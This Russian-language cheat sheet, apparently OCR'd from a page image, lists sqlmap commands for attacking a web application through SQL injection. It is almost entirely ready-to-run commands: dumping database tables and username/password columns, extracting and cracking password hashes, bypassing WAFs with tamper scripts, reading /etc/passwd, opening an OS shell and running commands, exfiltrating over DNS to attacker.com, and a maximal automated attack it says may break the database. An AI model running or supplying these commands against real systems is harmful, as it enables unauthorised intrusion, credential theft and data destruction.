 Определение базы данных:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump

_______________________________________________________________________________________________________________________________________

GET-параметры
> ```bash
> sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
> ```bash
> sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
> ```bash
> sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
> ```bash
> sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

_______________________________________________________________________________________________________________________________________

Определение типа инъекции
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=U
```Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.```

Обход WAF (Web Application Firewall)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
```Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.```

Определение уровня привилегий
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --users



Получение хешей паролей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --crack

Автоматическое определение всех уязвимых параметров
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
```Ищет SQL-инъекции во всех найденных формах на сайте```

Поиск файлов на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch
```
--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
